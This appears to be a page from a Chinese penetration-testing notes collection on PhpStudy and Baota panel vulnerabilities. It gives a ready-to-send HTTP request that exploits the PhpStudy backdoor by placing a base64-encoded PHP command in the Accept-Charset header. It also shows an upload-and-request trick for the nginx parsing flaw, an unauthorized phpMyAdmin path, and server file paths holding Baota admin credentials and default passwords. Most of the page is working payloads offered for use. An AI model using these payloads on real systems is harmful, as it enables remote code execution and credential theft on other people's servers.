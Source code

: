 
# 集成

## Phpstudy

**Phpstudy 后门 RCE**
- POC | Payload | exp
    ```
    GET /1.php HTTP/1.1
    Host: example.com
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.9
    Accept-Encoding:gzip,deflate
    Accept-Charset:这里就是要执行的命令base64加密 c3lzdGVtKCdjYWxjLmV4ZScpOw==
    Cookie: UM_distinctid=16ae380e49f27e-0987ab403bca49-3c604504-1fa400-16ae380e4a011b; CNZZDATA3801251=cnzz_eid%3D1063495559-1558595034-%26ntime%3D1559102092; CNZZDATA1670348=cnzz_eid%3D213162126-1559207282-%26ntime%3D1559207282
    Connection: close
    ```

**PhpStudy nginx 解析漏洞**
- 文章
    - [phpStudy默认配置致Nginx解析漏洞复现](https://mp.weixin.qq.com/s/nMgFxNzWfCe7m5DtkIBkgQ)

- POC | Payload | exp
    需要把 php 恶意文件上传到服务器。
    ```
    <?php phpinfo();?>
    ```
    通过 /x.txt/x.php 方式访问上传的图片地址,解析 php 代码。

---

## 宝塔

**宝塔面板 phpMyadmin 未授权访问**
- POC | Payload | exp
    ```
    xxx.xxx.xxx.xxx:888/pma
    ```

宝塔路径

```
后台路径:/www/server/panel/data/admin_path.pl
登录账号：/www/server/panel/data/default.db(账号和加密的密码)
密码:/www/server/panel/default.pl(初始默认密码)
```
---
